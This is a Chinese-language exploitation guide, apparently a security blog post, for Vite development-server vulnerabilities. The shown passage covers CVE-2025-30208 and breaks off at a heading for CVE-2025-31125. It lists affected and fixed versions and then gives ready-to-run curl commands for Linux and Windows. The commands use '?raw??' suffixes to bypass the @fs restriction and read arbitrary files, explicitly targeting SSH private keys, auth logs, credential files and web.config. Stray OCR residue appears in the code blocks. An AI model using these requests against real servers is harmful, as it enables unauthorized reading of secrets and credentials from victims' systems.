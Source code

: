 #  Vite漏洞利用指南（文末附工具）  
/root  励行安全   2025-06-09 12:03  
  
## 漏洞利用方法汇总  
### 1. CVE-2025-30208 (尾部分隔符绕过)  
  
**影响版本**  
: < 6.2.3, < 6.1.2, < 6.0.12, < 5.4.15, < 4.5.10  
  
**修复版本**  
: 6.2.3, 6.1.2, 6.0.12, 5.4.15, 4.5.10  
  
**利用原理**  
: 通过在URL中添加?raw??  
或?import&raw??  
查询参数，绕过@fs  
路径限制。这是因为尾部分隔符（如?  
）在多个地方被移除，但在查询字符串正则表达式中未被考虑到。  
  
**Linux系统利用示例**  
:  
```
ounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(line
# 读取任意文件
curl "http://[目标IP]:5173/@fs/etc/passwd?raw??"
curl "http://[目标IP]:5173/@fs/etc/passwd?import&raw??"
curl "http://[目标IP]:5173/@fs/var/log/auth.log?raw??"
curl "http://[目标IP]:5173/@fs/home/[用户名]/.ssh/id_rsa?raw??"

# 验证漏洞是否存在
curl "http://[目标IP]:5173/@fs/etc/passwd"  # 应返回403错误
curl "http://[目标IP]:5173/@fs/etc/passwd?raw??"  # 如果返回文件内容，则存在漏洞
```  
  
**Windows系统利用示例**  
:  
```
ounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(line
# 读取任意文件
curl "http://[目标IP]:5173/@fs/C:/Windows/win.ini?raw??"
curl "http://[目标IP]:5173/@fs/C:/Windows/system32/drivers/etc/hosts?raw??"
curl "http://[目标IP]:5173/@fs/C:/Users/Administrator/Desktop/credentials.txt?raw??"
curl "http://[目标IP]:5173/@fs/C:/inetpub/wwwroot/web.config?raw??"

# 验证漏洞是否存在
curl "http://[目标IP]:5173/@fs/C:/Windows/win.ini"  # 应返回403错误
curl "http://[目标IP]:5173/@fs/C:/Windows/win.ini?raw??"  # 如果返回文件内容，则存在漏洞
```  
### 2. CVE-2025-31125 (特定导入方法绕过)  
  
**影响版本**  
: 与CVE-2025-30208相同  
  